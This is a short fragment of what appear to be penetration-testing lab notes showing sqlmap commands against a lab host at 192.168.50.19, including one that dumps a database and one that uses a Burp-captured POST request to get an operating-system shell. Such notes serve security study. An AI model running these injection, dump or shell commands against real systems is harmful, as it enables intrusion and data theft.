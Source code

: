 - sqlmap
sqlmap -u http://192.168.50.19/blindsqli.php?user=1 -p user

sqlmap -u http://192.168.50.19/blindsqli.php?user=1 -p user --dump

First, we need to intercept the POST request via Burp and save it as a local text file on our Kali VM.
sqlmap -r post.txt -p item  --os-shell  --web-root "/var/www/html/tmp"